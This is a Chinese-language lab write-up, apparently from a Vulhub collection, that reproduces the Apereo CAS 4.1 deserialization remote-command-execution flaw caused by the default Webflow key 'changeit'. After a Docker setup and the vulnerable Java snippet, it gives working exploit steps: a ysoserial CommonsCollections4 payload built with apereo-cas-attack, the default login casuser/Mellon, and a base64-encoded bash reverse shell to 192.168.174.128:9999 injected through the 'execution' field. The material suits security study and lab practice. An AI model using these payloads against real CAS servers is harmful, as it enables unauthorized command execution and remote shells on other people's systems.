





Apereo CAS 4.1 反序列化命令执行漏洞¶
漏洞描述¶
Apereo CAS是一款Apereo发布的集中认证服务平台，常被用于企业内部单点登录系统。其4.1.7版本之前存在一处默认密钥的问题，利用这个默认密钥我们可以构造恶意信息触发目标反序列化漏洞，进而执行任意命令。
参考链接：
环境搭建¶
Vulhub执行如下命令启动一个Apereo CAS 4.1.5：
docker-compose up -d
环境启动后，访问http://your-ip:8080/cas/login即可查看到登录页面。
漏洞复现¶
写入文件¶
漏洞原理实际上是Webflow中使用了默认密钥changeit：
public class EncryptedTranscoder implements Transcoder {
private CipherBean cipherBean;
private boolean compression = true;
public EncryptedTranscoder() throws IOException {
BufferedBlockCipherBean bufferedBlockCipherBean = new BufferedBlockCipherBean();
bufferedBlockCipherBean.setBlockCipherSpec(new BufferedBlockCipherSpec("AES", "CBC", "PKCS7"));
bufferedBlockCipherBean.setKeyStore(this.createAndPrepareKeyStore());
bufferedBlockCipherBean.setKeyAlias("aes128");
bufferedBlockCipherBean.setKeyPassword("changeit");
bufferedBlockCipherBean.setNonce(new RBGNonce());
this.setCipherBean(bufferedBlockCipherBean);
}
// ...
使用Apereo-CAS-Attack来复现这个漏洞。使用ysoserial的CommonsCollections4生成加密后的Payload：
java -jar apereo-cas-attack-1.0-SNAPSHOT-all.jar CommonsCollections4 "touch /tmp/awesome_poc"

然后登录Apereo CAS并抓包（默认用户名/密码为casuser/Mellon），将Body中的execution值替换成上面生成的Payload发送：

登录Apereo CAS，touch /tmp/success已成功执行：

写入反弹shell¶
构造反弹shell并进行base64编码
bash -i >& /dev/tcp/192.168.174.128/9999 0>&1 (base64编码)
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}
java -jar apereo-cas-attack-1.0-SNAPSHOT-all.jar CommonsCollections4 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}"

监听端口，成功反弹shell
